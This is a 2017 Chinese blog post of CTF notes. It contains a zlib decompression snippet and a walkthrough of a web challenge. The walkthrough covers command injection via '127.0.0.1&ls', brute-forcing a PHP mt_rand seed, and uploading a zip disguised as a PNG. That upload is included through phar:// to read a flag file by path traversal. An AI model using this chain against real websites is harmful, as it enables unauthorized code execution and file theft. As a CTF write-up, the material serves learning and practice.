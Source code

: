 ```yaml
---
layout: post
title: 近期CTF笔记
subtitle: 
author: Coink
date: 2017-11-19
categories:
tag:
- Science
---
```


最近隐写里zlib上镜率比较高，解压缩脚本记录下

```python
#! /usr/bin/env python
import zlib
import binascii
IDAT = "xxxxxxxxxxxxxxxxxxx".decode('hex')
result = binascii.hexlify(zlib.decompress(IDAT))
print result
print result.decode('hex')
```

一道命令执行跟文件包含结合的题：

输入会被当作ping命令执行，|被过滤，命令长度限制在3个字符以内，尝试127.0.0.1&ls，列出文件

![](https://i.loli.net/2017/11/19/5a1192adca3ad.png)

转到you_find_upload.php，发现一个随机数

![](https://i.loli.net/2017/11/19/5a1192addcc3d.png)

发现是可以查看源码的

![](https://i.loli.net/2017/11/19/5a1192ae0dfc8.png)

base64解码查看源码，尝试跨目录，发现../被过滤。

```php
<?php
        $type = array('gif','jpg','png');
        mt_srand((time() % rand(1,100000)%rand(1000,9000)));
        echo mt_rand();
        if (isset($_POST['submit'])) {
            $check = getimagesize($_FILES['file']['tmp_name']);
            @$extension = end(explode('.',$_FILES['file']['name']));
            if(in_array($extension,$type)){
                echo 'File is an image - ' . $check['mime'];
                $filename = '/var/www/html/web1/upload/'.mt_rand().'_'.$_FILES['file']['name']; 
                move_uploaded_file($_FILES['file']['tmp_name'], $filename);
                echo "<br>\n";
            } else {
                echo "File is not an image";
            }
        }
        if(isset($_GET['p'])){
            if(@preg_match("/\.\.\//",$_GET['p'])){
                echo "too young too simple";
            }
            else{
               @include $_GET['p'].".php";
            }
        }
        ?>
```

上传的文件只检查后缀，白名单三种图片格式，尝试解析漏洞绕过，无果。

解决随机数问题，发现本质就是随机数种子1000-9000，学长写了个脚本：

```php
<?php
$t = 333347096;
for ($i = 1;$i<=9000;$i++){
    mt_srand($i);
    $r = mt_rand();
    if($r==333347096){
        echo "seed".$i."\n";
        break;
    }
}
mt_srand($i);
echo "check:".mt_rand()."\n";
echo "answer:".mt_rand();
?>
```

随机数问题解决了，这时候修仙的学弟看到读取源码使用了协议，尝试使用压缩上传，协议解压，php文件打包成zip，payload：

```php
<?php 
 $file = fopen('../../../../../../../../etc/flag.txt','r');

    if($file){
        while(!feof($file)){
            $line = fgetc($file);
            echo $line;
        }
    }
    fclose($file);
?>

```

抓包，修改zip文件后缀成png，记录随机数，丢到之前的脚本里跑出上传的目录

![](https://i.loli.net/2017/11/19/5a1192ae115bf.png)

seed404 check:718797317 answer:1230306824

接着用phar://协议解压，访问/web1/you_find_upload.php?p=phar://upload/1230306824_1.png/1

得到flag：

![](https://i.loli.net/2017/11/19/5a1192adbd276.png)


